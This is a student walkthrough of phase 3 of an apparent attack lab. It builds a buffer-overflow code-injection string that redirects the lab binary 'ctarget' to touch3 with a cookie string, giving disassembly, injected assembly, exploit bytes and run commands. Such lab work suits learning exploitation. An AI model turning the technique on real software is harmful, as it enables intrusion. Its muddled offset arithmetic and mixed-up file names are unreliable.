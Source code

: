# Phase 3

Phase 3 is kinda similar to phase two except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing the cookie after touch3.

So let's pass the address for the cookie to register $rdi

The total bytes before the cookie are ```buffer + 8 bytes for return address of rsp + 8 bytes for touch3 0x18 + 8 + 8 = 28 ``` (40 decimnal)

Locate the ```touch3``` func in the ```rtarget_dump.s``` file
```assembly
0000000000401a56 <touch3>:
  401a56:       53                      push   %rbx
  401a57:       48 89 fb                mov    %rdi,%rbx
  401a5a:       c7 05 b8 3a 20 00 03    movl   $0x3,0x203ab8(%rip)        # 60551c <vlevel>
  401a61:       00 00 00 
  401a64:       48 89 fe                mov    %rdi,%rsi
  401a67:       8b 3d b7 3a 20 00       mov    0x203ab7(%rip),%edi        # 605524 <cookie>
  401a6d:       e8 33 ff ff ff          callq  4019a5 <hexmatch>
  401a72:       85 c0                   test   %eax,%eax
  401a74:       74 23                   je     401a99 <touch3+0x43>
  401a76:       48 89 da                mov    %rbx,%rdx
  401a79:       be 20 35 40 00          mov    $0x403520,%esi
  401a7e:       bf 01 00 00 00          mov    $0x1,%edi
  401a83:       b8 00 00 00 00          mov    $0x0,%eax
  401a88:       e8 73 f3 ff ff          callq  400e00 <__printf_chk@plt>
  401a8d:       bf 03 00 00 00          mov    $0x3,%edi
  401a92:       e8 5b 04 00 00          callq  401ef2 <validate>
  401a97:       eb 21                   jmp    401aba <touch3+0x64>
  401a99:       48 89 da                mov    %rbx,%rdx
  401a9c:       be 48 35 40 00          mov    $0x403548,%esi
  401aa1:       bf 01 00 00 00          mov    $0x1,%edi
  401aa6:       b8 00 00 00 00          mov    $0x0,%eax
  401aab:       e8 50 f3 ff ff          callq  400e00 <__printf_chk@plt>
  401ab0:       bf 03 00 00 00          mov    $0x3,%edi
  401ab5:       e8 14 05 00 00          callq  401fce <fail>
  401aba:       bf 00 00 00 00          mov    $0x0,%edi
  401abf:       e8 8c f3 ff ff          callq  400e50 <exit@plt>

```

Grab the address for rsp from phase 2: ``0x55617e98`` Add ```0x28``` ```0x55617e98 + 0x28 = 0x55617EC0``` Now you need this assembly code, same steps generating the byte representation

Create the file ```phase3.s```.

```assembly
    movq $0x55617EC0,%rdi /* %rsp + 0x18 */
    retq
```
Now you need the byte representation of the code you wrote above, compile it with gcc then dissasemble it.

```ssh
gcc -c phase3.s
objdump -d phase3.o  > phase3.d 
```
Now open the file phase2.d and you will get something like below

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 c0 7e 61 55    mov    $0x55617ec0,%rdi
   7:   c3                      retq
```
My cookie ```0x3451d86d``` => ```33 34 35 31 64 38 36 64```

Now, grab the bytes from the above code and start constructing your exploit string. Create a new file named ```phase3.txt``` and here is what mine looks like:

```
48 c7 c7 c0 7e 61 55 c3 /*rsp + 28 the address where the cookie is present*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /*padding*/
98 7e 61 55 00 00 00 00 /* return address ($rsp)*/
56 1a 40 00 00 00 00 00 /* touch3 address -- get this from the rtarget dump file */
33 34 35 31 64 38 36 64 /* cookie string*/
```
If you look at the last row above, the cookie is in hex format, so you need to take your cookie and convert in to text format. Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie without '0x' and it should give you the text format or you could look up ascii equivalent on your machine

Last step is to generate the raw eploit string using the hex2raw program.

```./hex2raw < phase3.txt > raw-phase3.txt```

Finally, you run the raw file

```./ctarget < raw-phase3.txt```

Response looks like below

```ssh

```
